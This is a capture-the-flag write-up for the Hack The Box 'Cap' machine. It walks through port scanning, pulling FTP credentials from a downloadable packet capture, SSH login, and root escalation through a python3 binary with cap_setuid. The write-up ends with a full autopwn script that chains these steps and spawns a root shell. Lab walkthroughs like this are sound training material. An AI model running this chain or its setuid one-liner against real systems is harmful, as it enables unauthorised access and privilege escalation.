

Cap Writeup [HTB]
Cap is a Linux based machine that was active since June 5th of 2021 to October 2nd, on this machine we will find a packet capture file where we will find some credentials for the machine, connect with them through SSH, and find that python3 has setuid privilege, using it we will set us the uid of root (0), and spawn a shell finishing with the machine, since the machine is really short I will also leave a autopwn script at the end that automates everything.
Enumeration
We start using masscan to find all the available ports and then use nmap to get more information about them.
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.245
nmap -sC -sV -p 22,80,21, -Pn -o scan.txt 10.10.10.245
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http gunicorn
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 404 NOT FOUND
| Server: gunicorn
| Date: Sat, 05 Jun 2021 19:05:18 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Content-Length: 232
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
| <title>404 Not Found</title>
| <h1>Not Found</h1>
| <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 5 14:07:39 2021 -- 1 IP address (1 host up) scanned in 137.04 seconds
We see three ports open, FTP, SSH and an HTTP server, so we start with the HTTP server.

Gaining Access
We see a kind of security page, if we access to IP Config we will the output of ifconfig, if we enter to netstat we will se the output of netstat, but if we enter to security snapshot, which points to http://10.10.10.245/capture, we are redirected to another page.

We are redirected to data/3 on this case, on this page we can download a packet capture file about the last connections that were made to the machine, we can try to see any older one, also let’s remember that on programing the start is not 1, is 0, so we go to data/0, download 0.pcap and checking its contents we can see a commication with the FTP server, remember to always use encrypted channels.

We got some credentials for the FTP server, but they also work on SSH, so now we can get access to the machine and retrieve user.txt.

Privilege Escalation
By the name of the machine I though that the privilige escalation path would be due to capabilities, so the first thing I did was look for any file with capabilities, to do so I ran, getcap -r / 2> /dev/null.

We see that python3 has “cap_setuid”, set, if we go the manual we find what it means: Make arbitrary manipulations of process UIDs, so we can manipulate the UID of process, the easiest way to exploit this is import os module, and changing our UID and spawning a shell.

And with that we have finished with the machine, if you knew about linux capabilities this is one of the easiest machines on HTB, but if you don’t I can image this could take you a while to undertand.
Autopwn
Since the machine was really easy I decided to write an autopwn script for the machine, this one gets the IP of the machine as argument, downloads the 0.pcap file, parses it with scapy, connects through SSH using pwntools and elevates the shell to root.
#!/usr/bin/env python3
import requests
from scapy.all import *
from pwn import *
import signal
import sys
import time
def def_handler(sig, fram):
print ("Exiting...\n")
sys.exit(1)
#Ctrl+C
signal.signal(signal.SIGINT, def_handler)
if len(sys.argv) < 2:
print ("Please provide the IP of the machine")
print ("Usage example: python3 autopwn.py 10.10.10.245")
sys.exit(1)
def log_mess(message):
p1.status(message)
time.sleep(1)
ip = sys.argv[1]
p1 = log.progress("Pwning")
log_mess("Downloading pcap")
pcap = requests.get("http://" + ip + "/download/0").content
save = open("0.pcap",'wb')
save.write(pcap)
save.close
log_mess("Parsing the pcap file")
time.sleep(1)
packets = rdpcap("0.pcap")
for pkt in packets:
if pkt.haslayer(TCP) and pkt.dport == 21 and pkt.haslayer(Raw):
payload = pkt[Raw].load.decode("utf-8").strip()
if payload.find("USER") != -1:
print (f'User found!: {payload}')
username = payload.split()[1]
elif payload.find("PASS") != 1:
print (f'Password found!: {payload}')
password = payload.split()[1]
break
log_mess("Connecting to SSH")
shell = ssh(user=username,password=password,host=ip).shell()
shell.recv(1024)
log_mess("Getting user flag")
shell.send("cat user.txt\n")
time.sleep(1)
log.success("User flag: " + shell.recv(1024).decode('utf-8').split("\n")[1])
log_mess("Escalating privileges")
shell.send("python3 -c \"import os;os.setuid(0);os.system('/bin/bash')\"\n")
time.sleep(1)
shell.recv(1024)
shell.send("id\n")
time.sleep(1)
log.success("We are root: " + shell.recv(1024).decode('utf-8').split("\n")[1])
log_mess("Getting root flag")
shell.send("cat /root/root.txt\n")
time.sleep(1)
log.success("Root flag: " + shell.recv(1024).decode('utf-8').split("\n")[1])
p1.success("Machine owned!!")
shell.interactive()
